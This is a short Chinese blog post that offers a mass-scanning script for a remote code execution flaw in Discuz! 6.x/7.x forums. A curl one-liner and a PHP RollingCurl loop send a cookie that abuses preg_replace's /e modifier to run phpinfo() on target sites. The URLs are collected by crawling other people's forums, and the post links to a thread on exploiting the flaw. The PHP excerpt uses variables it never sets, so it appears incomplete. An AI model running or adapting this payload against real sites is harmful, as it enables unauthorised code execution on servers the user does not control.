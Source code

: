 ```yaml
---
title: Discuz! 6.x/7.x 批量检测脚本
date: 2014-11-25 03:05 
tags: php代码控
---
```


>用法 先 用抓取url工具 抓取 若干 url (url为 带表情的帖子，或回复)
存放至 dz.txt 文件 然后执行本脚本

[漏洞利用请关注](https://www.t00ls.net/viewthread.php?tid=28573&extra=&page=9) 第82楼

**单个测试语句(windows)：**

```bash
curl 'http://bbs.test.com/viewthread.php?tid=29958' -s --cookie 'GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();' |findstr /i /c:'<h2>PHP License</h2>'
```

有返回说明有洞


```php
<?php

$rc->__set('time_out', $timeout); //设置超时时间

$urls=file('dz.txt');

foreach ($urls as $url) {
//$url=trim($url);
$request = new RollingCurlRequest(trim($url));
$request->options = array(CURLOPT_HTTPHEADER => array('Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();'));

$rc->add($request);
}
$rc->execute();
//时间统计函数
function func_time()
{
list($microsec, $sec) = explode(' ', microtime());
return $microsec + $sec;
}

echo '\r\n'.'time: ' . round((func_time() – $start_time), 4) . 'sec ';
?>
```